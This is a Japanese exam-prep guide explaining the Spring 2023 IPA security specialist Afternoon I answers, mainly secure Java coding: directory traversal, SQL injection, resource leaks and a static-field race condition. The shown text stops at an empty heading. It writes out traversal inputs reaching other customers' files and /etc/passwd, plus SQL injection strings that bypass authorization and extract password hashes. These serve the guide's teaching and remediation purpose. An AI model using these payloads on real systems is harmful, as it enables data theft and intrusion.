# 令和5年度 春期 情報処理安全確保支援士試験 午後Ⅰ 設問別解説 <!-- omit in toc -->

> 出典：IPA 令和5年度春期 情報処理安全確保支援士試験 午後Ⅰ 問題・解答例（©2023 独立行政法人情報処理推進機構）
> 形式：問1〜問3から**2問選択**／12:30〜14:00（1時間30分）
> 構成：各設問について「**設問文 → 解答 → 解説**」の順に記載。**解答**はIPA公表の解答例であり、記述式は同趣旨であれば可。

- [問1 Webアプリケーションプログラム開発（G社／Y社）](#問1-webアプリケーションプログラム開発g社y社)
  - [題材の整理](#題材の整理)
  - [設問1(1)　表1 空欄a（ディレクトリトラバーサルの指摘箇所）](#設問11表1-空欄aディレクトリトラバーサルの指摘箇所)
  - [設問1(2)　表1 空欄b（解放漏れのリソース）](#設問12表1-空欄b解放漏れのリソース)
  - [設問1(3)　図2 空欄c・d（SQLインジェクションの修正）](#設問13図2-空欄cdsqlインジェクションの修正)
  - [設問2(1)(2)　空欄e・f（不具合の原因）](#設問212空欄ef不具合の原因)
  - [設問2(3)　下線①の不具合の呼称（15字以内）](#設問23下線の不具合の呼称15字以内)
  - [設問2(4)　図6・図7 空欄g〜i（ソースコードの修正）](#設問24図6図7-空欄giソースコードの修正)
  - [設問2(5)　空欄j（保険的な対策で追加する属性）](#設問25空欄j保険的な対策で追加する属性)
  - [問1の学習ポイントまとめ](#問1の学習ポイントまとめ)
- [問2 セキュリティインシデント（R社）](#問2-セキュリティインシデントr社)
  - [題材の整理](#題材の整理-1)
  - [設問1　空欄a（FTPのデータコネクションのモード）](#設問1空欄aftpのデータコネクションのモード)
  - [設問2(1)　空欄b（SNMPv2cの`public`）](#設問21空欄bsnmpv2cのpublic)
  - [設問2(2)(3)　空欄c・d と 下線①②の判断理由](#設問223空欄cd-と-下線の判断理由)
  - [設問2(4)　空欄e（ポートスキャンを実行したプロセスのPID）](#設問24空欄eポートスキャンを実行したプロセスのpid)
  - [設問3(1)　下線③　TXTレコードなら攻撃できる理由（30字以内）](#設問31下線txtレコードなら攻撃できる理由30字以内)
  - [設問3(2)　下線④　ダウンロードしたファイルが解析対象として不適切な理由（30字以内）](#設問32下線ダウンロードしたファイルが解析対象として不適切な理由30字以内)
  - [設問3(3)　空欄f（解析対象ファイルの取得元）](#設問33空欄f解析対象ファイルの取得元)
  - [問2の学習ポイントまとめ](#問2の学習ポイントまとめ)
- [問3 クラウドサービス利用（Q社）](#問3-クラウドサービス利用q社)
  - [題材の整理](#題材の整理-2)
  - [設問1(1)　図2 空欄a〜c（SAML認証の登場人物）](#設問11図2-空欄acsaml認証の登場人物)
  - [設問1(2)　下線①の理由（40字以内）](#設問12下線の理由40字以内)
  - [設問2(1)　表3 空欄d〜f（TLS復号のための証明書）](#設問21表3-空欄dftls復号のための証明書)
  - [設問2(2)　表3 空欄g（通信可視化機能の分類）](#設問22表3-空欄g通信可視化機能の分類)
  - [設問3(1)　下線②　営業所のアクセス方法の違い（30字以内）](#設問31下線営業所のアクセス方法の違い30字以内)
  - [設問3(2)　下線③　Lサービスに追加する設定（40字以内）](#設問32下線lサービスに追加する設定40字以内)
  - [設問3(3)　下線④　選択する多要素認証の方式](#設問33下線選択する多要素認証の方式)
  - [設問3(4)　表4 空欄h・i（要件3・要件4に使う機能）](#設問34表4-空欄hi要件3要件4に使う機能)
  - [設問3(5)　表5 空欄あ・い、j〜o（URLフィルタリングの設定）](#設問35表5-空欄あいjourlフィルタリングの設定)
  - [問3の学習ポイントまとめ](#問3の学習ポイントまとめ)

<div style="page-break-before:always"></div>

---

## 問1 Webアプリケーションプログラム開発（G社／Y社）

### 題材の整理

| 項目     | 内容                                                                                            |
| -------- | ----------------------------------------------------------------------------------------------- |
| 企業     | G社：システム開発を行う従業員100名のSI企業／発注元 Y社：オフィス用品販売、従業員200名           |
| 体制     | D主任（リーダー）、Eさん（開発課）、新人Fさん、H さん（技術課／セキュアプログラミングに詳しい） |
| 開発品   | 注文機能、注文履歴表示機能、**注文情報照会機能**、納品書PDFダウンロード機能                     |
| 品質担保 | プログラミング完了後に**ツールによるソースコードの静的解析（SAST）**を実施                      |
| 流れ     | 静的解析で3件指摘 → 修正 → **システムテスト**で別の不具合が発覚 → 原因特定・修正                |

**出題趣旨**：静的解析やシステムテストで発見されたセキュリティ上の不具合への対処を踏まえた、**セキュアプログラミング**に関する能力を問う。

**問1の流れ**



> **正誤表に注意**：問題冊子6ページ下から6行目、設問2(1)の「図5中から選び」は「**図4中から選び**」が正。空欄eは図4のソースコードから選ぶ。

---

### 設問1(1)　表1 空欄a（ディレクトリトラバーサルの指摘箇所）

> **設問1**　〔ツールによるソースコードの静的解析〕について答えよ。
> **(1)** 表1中の **a** に入れる適切な行番号を、図1中から選び、答えよ。

**解答**：**13**

**解説**
表1項番2の指摘内容は「**ファイルアクセスに用いるパス名の文字列作成で、利用者が入力したデータを直接使用している**」。図1で `File` オブジェクトを生成しているのは13行目だけ。

```java
13: File fileObj = new File(PDF_DIRECTORY + "/" + clientCode + "/" + "DeliverySlip" + inOrderNo + ".pdf");
```

`inOrderNo` は**画面から入力された注文番号**＝利用者入力。これがパス名の組み立てに直接使われているため、`/var/pdf/<得意先コード>/` の外を指すパスを作られてしまう。

#### 具体例：どんなパスが組み立てられるか <!-- omit in toc -->

図1の2行目に `PDF_DIRECTORY = "/var/pdf"` とあるので、得意先コード `C001`、注文番号 `20230401001` の正常なアクセスは次のようになる。

```
/var/pdf  /  C001  /  DeliverySlip  20230401001  .pdf
└─ 固定 ┘   └ DB ┘   └── 固定 ──┘ └ 利用者入力 ┘ └ 固定 ┘

→ /var/pdf/C001/DeliverySlip20230401001.pdf
```

**攻撃例1：他の得意先の納品書を盗み見る（このアプリで最も現実的な被害）**

```
inOrderNo = /../../C002/DeliverySlip20230501002

組み立てられるパス
  /var/pdf/C001/DeliverySlip/../../C002/DeliverySlip20230501002.pdf
正規化後
  /var/pdf/C002/DeliverySlip20230501002.pdf   ← 別の得意先の納品書
```

納品書には取引先名・品目・金額が載るため、**他社の取引内容がそのまま漏れる**。得意先コードでディレクトリを分けて隔離していたつもりが、その隔離を素通りされる。

**得意先ごとの隔離が破られる様子**



**攻撃例2：業務と無関係なシステムファイルを読む**

```
inOrderNo = /../../../../etc/passwd

  /var/pdf/C001/DeliverySlip/../../../../etc/passwd.pdf
→ /etc/passwd.pdf
```

**このコード固有の「成立条件」**

上の例は教科書どおりに見えて、実はこの実装特有の制約が2つある。ここを理解しておくと対策の理由が腹落ちする。

| 制約                        | 内容                                                                                                                                               | 攻撃側の回避                                                                                                                                                          |
| --------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **前置き `"DeliverySlip"`** | 利用者入力の直前がパス区切りではなく固定文字列。`inOrderNo = "../"` だと `DeliverySlip..` という構成要素になり、OSのパス解決で存在しない扱いになる | 先頭に `/` を置いて `DeliverySlip` を**ディレクトリ名として消費させる**（＝上の攻撃例の形）。ただし `/var/pdf/C001/DeliverySlip` が実在する必要がある                 |
| **後置き `".pdf"`**         | 末尾に必ず `.pdf` が付く                                                                                                                           | **拡張子が `.pdf` のファイル（＝他社の納品書）を狙えば無関係**。Java 6以前ならヌルバイト `%00` で切り捨てられたが、Java 7以降は `InvalidPathException` で塞がれている |

したがって `/etc/passwd` 系の例は環境依存だが、**攻撃例1の「他の得意先の納品書」は拡張子も一致するため素直に成立する**。

重要なのは、**この設問が問うているのは「動く攻撃コードが書けるか」ではない**という点。静的解析ツールが指摘しているのは「利用者入力がパス名の組み立てに流れ込んでいる」という**データフローそのもの**であり、前後の固定文字列は攻撃を面倒にするだけで対策ではない（ディレクトリ構成が変わる、シンボリックリンクがある、将来コードが少し変わる、といった理由で簡単に成立側へ転ぶ）。

#### `inOrderNo` が利用者入力だと分かる根拠 <!-- omit in toc -->

本番では**①の消去法だけで十分**。②〜⑤は「なぜそう言えるか」の裏取りにあたる。

| #     | 根拠                                 | 内容                                                                                                                                                                                                                                                                                   |
| ----- | ------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **①** | **表1 項番2 の指摘内容**（主根拠）   | 「パス名の文字列作成で、**利用者が入力したデータ**を直接使用している」。13行目でパス組み立てに使われる外部由来の値は `clientCode` と `inOrderNo` の2つだけで、`clientCode` は12行目で `resultObj.getString("client_code")` と**DBから取得**している。よって残る `inOrderNo` が該当する |
| **②** | **表1 項番1（SQLインジェクション）** | 8行目で `inOrderNo` をSQL文に直接連結。SQLiは**外部入力がSQLに混入する**脆弱性なので、ツールが `inOrderNo` を外部入力として追跡している証拠になる                                                                                                                                      |
| **③** | **図1 3行目のシグネチャ**            | `getDeliverySlipPDF(String inOrderNo, Connection conn)`。`in` は input を表す命名で、**呼び出し元から渡される値**であることを示す                                                                                                                                                      |
| **④** | **問題文の記述**                     | 〔システムテスト〕に「**画面から注文番号を入力すると**」、〔受託したシステムの概要〕に「**注文番号を基に**注文情報を照会する機能」とあり、注文番号＝利用者が指定する値                                                                                                                 |
| **⑤** | **図4・図5のデータフロー**           | 図5に「（省略）//try文、**リクエストから注文番号を取得**」→ `OrderInfoBL.setOrderNo(orderNo)`、図4に `setOrderNo(String inOrderNo)`、10行目のコメントに「**画面から入力された注文番号**」。同じ問題の中で `inOrderNo` 系の引数がリクエスト由来だと明示されている                       |

**合わせ技：SQLインジェクションと組み合わせると `clientCode` も汚染される**

`clientCode` は12行目でDBから取得しているので一見安全だが、**修正前は8行目にSQLインジェクションがある**。`UNION SELECT '../../..' …` のような注入で `client_code` に任意の文字列を返させれば、パスの**DB由来の部分まで攻撃者が制御**できる。**1つの入力値がSQLとファイルパスという2つの処理系に流れ込んでいる**のがこの問の構図。

**1つの利用者入力が2つの処理系へ流れ込む**



**引っ掛かりやすい選択肢の消し方**

| 候補                                                    | 判定                                                                           |
| ------------------------------------------------------- | ------------------------------------------------------------------------------ |
| 8行目（`" WHERE head.order_no = '" + inOrderNo + "'"`） | 利用者入力を直接連結しているが、これは**項番1のSQLインジェクション**の指摘箇所 |
| 12行目（`clientCode` の取得）                           | `clientCode` は**DBから取得した値**であって利用者入力ではない                  |
| 14行目（`FileInputStream(fileObj)`）                    | パス名を**作成**しているのは13行目。指摘内容の文言は「パス名の文字列作成」     |

**+α**：ディレクトリトラバーサルの対策は優先順位がある。
1. **ファイル名を外部から受け取らない**（セッションの情報やDBの内部IDから決定する）── IPA「安全なウェブサイトの作り方」の根本的解決
2. どうしても受け取るなら、**注文番号の書式による許可リスト検証**（`^[0-9]+$` のように数字だけを許可する）
3. 正規化（`getCanonicalPath()`）した上で、**`/var/pdf/<セッションの得意先コード>/` 配下であることを検証**する（攻撃例1の横方向の移動もこれで塞げる）
なお `..` を単純に除去するフィルタは `....//` のような多重記法で回避されるため不十分。

---

### 設問1(2)　表1 空欄b（解放漏れのリソース）

> **(2)** 表1中の **b** に入れる適切な変数名を、図1中から選び、答えよ。

**解答**：**in**

**解説**
表1項番3は「変数 `stmt`、変数 `resultObj`、変数 **b** が指すリソースが解放されない」。図1で `close()` が必要なオブジェクトを持つ変数は次の3つ。

| 変数        | 型                                                  | 種別                 |
| ----------- | --------------------------------------------------- | -------------------- |
| `stmt`      | `Statement`                                         | JDBCリソース         |
| `resultObj` | `ResultSet`                                         | JDBCリソース         |
| **`in`**    | `BufferedInputStream`（`FileInputStream` をラップ） | **ファイルハンドル** |

`buf` は単なる `byte[]`、`fileObj` は `File`（パスを表すだけでハンドルを持たない）、`conn` は**引数で渡された接続**なので呼び出し元が閉じる責務を持つ。よって残るのは `in`。

図1は 5行目の `try` に対して 18行目が `catch` のみで、**`finally` も try-with-resources もない**。例外時はもちろん、正常終了時にも `close()` が呼ばれていない。

**+α**：リソースリークは「情報が漏れる」タイプの脆弱性ではなく、**可用性（DoS）**の問題として出題される。
- ファイルディスクリプタ枯渇（`Too many open files`）
- **コネクションプールの枯渇**でアプリ全体が停止
- 対策は Java 7 以降なら **try-with-resources**：

```java
try (Statement stmt = conn.createStatement();
     ResultSet rs = stmt.executeQuery(sql)) { ... }
```

さらに細かい話として、図1の 15〜16行目 `new byte[in.available()]` → `in.read(buf)` も実装としては不正確（`available()` は残り全バイト数を保証せず、`read()` も一度で全部読む保証がない）。本問では問われていないが、コードレビュー観点としては押さえておきたい。

---

### 設問1(3)　図2 空欄c・d（SQLインジェクションの修正）

> **(3)** 図2中の **c**、**d** に入れる適切な字句を答えよ。

**解答**
- c＝**WHERE head.order_no = ?**
- d＝**PreparedStatement stmt = conn.prepareStatement(sql)**

**修正前後の対比**

```java
// 修正前（図1・8〜11行目）
 8: sql = sql + " WHERE head.order_no = '" + inOrderNo + "' ";
 9: sql = sql + (省略);                       // 抽出条件の続き
10: Statement stmt = conn.createStatement();
11: ResultSet resultObj = stmt.executeQuery(sql);
```

```java
// 修正後（図2）
sql = sql + " WHERE head.order_no = ? ";      // ← c：値を埋め込まず「?」を置く
sql = sql + (省略);                            // 抽出条件の続き
PreparedStatement stmt = conn.prepareStatement(sql);   // ← d
stmt.setString(1, inOrderNo);                  // 「?」に値をバインド
ResultSet resultObj = stmt.executeQuery();     // 引数なし
```

**解説**
- **c**：修正前の `= '" + inOrderNo + "'"` を、**引用符ごと `?`（プレースホルダ）に置き換える**のがポイント。`= '?'` と書くと文字列リテラルの中の疑問符になってしまい、バインドされない。
- **d**：`createStatement()`（SQL文を後から渡す）ではなく **`prepareStatement(sql)`（SQL文を先に渡す）** に変える。続く行が `stmt.setString(1, inOrderNo)` と `stmt.executeQuery()`（引数なし）なので、`stmt` は `PreparedStatement` 型でなければならない。
- **配置位置にも意味がある**。`prepareStatement()` は**SQL文が完成してから**呼ぶ必要があるため、図2では「抽出条件の続き」を連結した**後**に置かれている。

#### プレースホルダに置き換えることで得られる効果 <!-- omit in toc -->

一言でいえば、**SQL文の「構文」と「データ」を、DBMSに渡す経路のレベルで分離できる**こと。利用者入力がどんな文字列であっても、それがSQL文の一部として解釈される経路そのものがなくなる。

**修正前：なぜ危険か**

修正前は**完成した1本の文字列**をDBMSに渡している。DBMSから見れば、利用者が入力した文字も開発者が書いた文字も区別がつかず、届いた文字列を頭から構文解析するだけ。

```sql
-- 正常時（inOrderNo = 20230401001）
SELECT … WHERE head.order_no = '20230401001' …

-- 攻撃例1：認可の回避（inOrderNo = ' OR '1'='1）
SELECT … WHERE head.order_no = '' OR '1'='1' …
                               └─────┬─────┘
                        利用者入力が「条件式」に化けた
```

条件が常に真になり、**全得意先の注文情報がヒットする**。さらに `' UNION SELECT 利用者ID, パスワードハッシュ … FROM 利用者マスター --` を注入されると、図3のE-R図にある**パスワードソルトとパスワードハッシュ**を抜かれ、オフラインの総当たりで**全利用者の認証情報が破られる**。納品書PDFの機能ひとつから、システム全体の認証が崩れる。

つまり本質的な問題は「変な文字が入ること」ではなく、**利用者入力がSQL文の構文構造そのものを書き換えられること**にある。

**修正後：なぜ防げるか**

処理が**2段階に分かれる**のがポイント。



構文が**値を知る前に確定している**ため、あとから渡す値が構文に影響を与えようがない。

| 入力               | 修正前                         | 修正後                                                               |
| ------------------ | ------------------------------ | -------------------------------------------------------------------- |
| `' OR '1'='1`      | 条件式として解釈され全件ヒット | **`' OR '1'='1` という11文字の注文番号**として検索 → 該当なし（0件） |
| `' UNION SELECT …` | 別テーブルが連結される         | **その文字列そのもの**を注文番号として検索 → 該当なし                |

「危険な文字を無害化した」のではなく、**最初から値として扱われている**点が決定的に重要。

**エスケープ処理との違い（なぜ根本的解決とされるか）**

|          | エスケープ処理                                                                                  | プレースホルダ                               |
| -------- | ----------------------------------------------------------------------------------------------- | -------------------------------------------- |
| 考え方   | 危険な文字（`'` など）を**後から無害化**する                                                    | そもそも**値が構文になる経路がない**         |
| 実装     | 開発者が**箇所ごとに**忘れず適用する必要がある                                                  | 書き方が決まっており、**漏れが目視で分かる** |
| 弱点     | エスケープ漏れ、文字コード依存（マルチバイトの不正なバイト列で `'` を作る手口）、DBMSごとの差異 | 原理的にこれらが発生しない                   |
| レビュー | 「全箇所やったか」の確認が必要                                                                  | 「文字列連結が残っていないか」を探すだけ     |

**「1か所でも漏れたら終わり」の対策より、「そもそも仕組みとして起こらない」対策を選ぶ**——これがセキュアプログラミングの基本姿勢。

**副次的に得られる効果**

- **性能**：同じSQL文を繰り返し実行する場合、構文解析と実行計画の生成を再利用できる
- **型の明示**：`setString` / `setInt` で型を指定するため、型の取り違えに気づきやすい
- **バグの解消**：`O'Brien` のように値に引用符が含まれるケースで、修正前のコードは**攻撃されなくても普通にSQL構文エラーになる**。プレースホルダならそのまま正しく扱える
- **可読性**：SQL文の骨格が一目で読める

**+α**
- プレースホルダには2種類ある。**静的プレースホルダ**（SQL文の構文をDBMS側で先に確定させる／`?` の値は後から値としてのみ渡る）が最も安全。JDBCの `PreparedStatement` は原則これ。**動的プレースホルダ**はライブラリ側でエスケープして組み立てるため、実装依存の抜けが残り得る。
- **プレースホルダが使えない箇所**（テーブル名、カラム名、`ORDER BY` の並び順、`LIKE` の一部など）は、**許可リストで固定値に変換する**のが定石。
- なお、この修正で解消するのは**項番1だけ**。13行目のディレクトリトラバーサル（項番2）と解放漏れ（項番3）は別途修正が必要で、本文でも「項番2と項番3についてもソースコードを修正した」と記載されている。**1つの入力値が複数の処理系（SQLとファイルパス）に渡っている**点がこの問の面白さ。

---

### 設問2(1)(2)　空欄e・f（不具合の原因）

> **設問2**　〔システムテスト〕について答えよ。
> **(1)** 本文中の **e** に入れる適切な変数名を、図4中から選び、答えよ。（※正誤表により「図5中から選び」を「図4中から選び」に訂正）
> **(2)** 本文中の **f** に入れる適切な字句を、英字10字以内で答えよ。
>
> 　（本文：原因は、図4で変数 **e** が **f** として宣言されていることである。）

**解答**：e＝**orderNo**／f＝**static**

**不具合の症状**
> ある得意先の利用者IDでログインして画面から注文番号を入力すると、**別の得意先の注文情報が出力される**。

**解説**
図4のビジネスロジッククラスを見る。

```java
1: public class OrderInfoBL {
2:   private static String orderNo;                       // ← e が f として宣言されている
3:   public static void setOrderNo(String inOrderNo) {
4:     orderNo = inOrderNo;
5:   }
6:   public static OrderInfoBean getOrderInfoBean() {
        ...
11:    psObj.setString(1, orderNo);                       // ← ここで読み出す
12:    ResultSet resultObj = psObj.executeQuery();
```

図5のサーブレットクラスでは、**値の設定と読み出しが2回のメソッド呼出しに分かれている**。

```java
4: OrderInfoBL.setOrderNo(orderNo);                       // ①注文番号をセット
5: OrderInfoBean orderInfoBeanObj = OrderInfoBL.getOrderInfoBean();  // ②セットした値で検索
```

`static` フィールドは**クラスに1つしか存在せず、全スレッド（＝全リクエスト）で共有**される。一方サーブレットは、通常**1インスタンスが複数のリクエストをマルチスレッドで処理**する。したがって次の割り込みが起こり得る。

| 時刻 | 得意先Aのリクエスト                   | 得意先Bのリクエスト               | `OrderInfoBL.orderNo` |
| ---- | ------------------------------------- | --------------------------------- | --------------------- |
| t1   | `setOrderNo("A001")`                  |                                   | A001                  |
| t2   |                                       | `setOrderNo("B999")`              | **B999**              |
| t3   | `getOrderInfoBean()` → **B999で検索** |                                   | B999                  |
| t4   |                                       | `getOrderInfoBean()` → B999で検索 | B999                  |

得意先Aの画面に、得意先Bの注文情報が表示される。**同時アクセスが少ない単体テストでは再現せず、システムテストで初めて顕在化する**という筋書きも現実的。

**割り込みが起きる様子**



**+α**：Servletでスレッドセーフでなくなる典型パターン。
- `static` フィールド／サーブレットの**インスタンスフィールド**に状態を持たせる
- `SimpleDateFormat` などスレッドセーフでないオブジェクトを共有フィールドに置く
- 逆に**メソッドのローカル変数はスレッドごとのスタックに置かれる**ので安全 ── これが設問2(4)の修正方針の根拠になる。

---

### 設問2(3)　下線①の不具合の呼称（15字以内）

> **(3)** 本文中の下線①の不具合は何と呼ばれるか。15字以内で答えよ。
>
> 　（下線①：**並列動作する複数の処理が同一のリソースに同時にアクセスしたとき、想定外の処理結果が生じる**）

**解答**：**レースコンディション**

**解説**
下線①＝「**並列動作する複数の処理が同一のリソースに同時にアクセスしたとき、想定外の処理結果が生じる**」。これは競合状態（race condition／競合条件）の定義そのもの。カタカナ9字で字数制限内。

**+α**：関連する頻出用語
- **TOCTOU（Time of Check to Time of Use）**：チェックした時点と使用する時点の間に状態が変わることを突く攻撃。「ファイルの存在確認 → オープン」の間にシンボリックリンクに差し替えるなど。図1の13〜14行目（PDFの存在確認→オープン）も構造としては同じリスクを持つ。
- 対策の方向は2つ。**共有しない**（ローカル変数・引数渡し・スレッドローカル）か、**排他制御する**（`synchronized`、ロック、アトミック変数）。本問は前者を採る。Webアプリでは排他制御はスループット低下を招くため、まず「共有状態を作らない」が原則。

---

### 設問2(4)　図6・図7 空欄g〜i（ソースコードの修正）

> **(4)** 図6中の **g**、図7中の **h**、**i** に入れる適切な字句を答えよ。

**解答**
- g＝**String orderNo**
- h＝**new**
- i＝**getOrderInfoBean(orderNo)**

**4点の修正の全体像**

| #   | 修正内容                                                                                                                         | ねらい                                                                                               |
| --- | -------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------- |
| (1) | 図4の2〜5行目（`static` フィールドと `setOrderNo`）を**削除**                                                                    | 共有状態そのものを消す                                                                               |
| (2) | 図4の6行目を `public OrderInfoBean getOrderInfoBean(**String orderNo**) {` に                                                    | 注文番号を**引数（＝ローカル変数）**で受け取る。同時に `static` が外れ**インスタンスメソッド**になる |
| (3) | 図5の4〜5行目を `OrderInfoBL orderInfoBLObj = **new** OrderInfoBL();` / `... = orderInfoBLObj.**getOrderInfoBean(orderNo)**;` に | リクエストごとに**別インスタンス**を生成し、値を直接渡す                                             |
| (4) | 図4の10行目の抽出条件に得意先コードの一致条件を追加                                                                              | 保険的対策（設問2(5)）                                                                               |

**修正前後の構造の違い**



**解説**
